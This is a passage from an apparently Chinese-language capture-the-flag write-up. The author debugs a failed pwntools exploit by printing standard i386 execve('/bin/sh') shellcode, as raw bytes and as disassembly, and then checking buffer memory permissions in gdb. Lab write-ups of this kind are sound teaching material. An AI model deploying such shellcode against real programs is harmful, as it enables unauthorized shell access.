 图中的红色dollar符号是pwntools自带的，并不是成功获取到了shell，出大问题了，开始检查...

首先是shellcode本身：

```
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80####################################################################'
```

```
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx, esp
/* push argument array ['sh\x00'] */
/* push 'sh\x00\x00' */
push 0x1010101
xor dword ptr [esp], 0x1016972
xor ecx, ecx
push ecx /* null terminate */
push 4
pop ecx
add ecx, esp
push ecx /* 'sh\x00' */
mov ecx, esp
xor edx, edx
/* call execve() */
push SYS_execve /* 0xb */
pop eax
int 0x80
```

是使用execve调用shell的很正常的shellcode。

然后检查一下buf2那里是不是不可执行，使用`breakpoint main`在main函数那里打断点，`run`运行到断点之后使用`vmmap`查看内存情况：

![image-20230414174534940](./README.assets/image-20230414174534940.png)
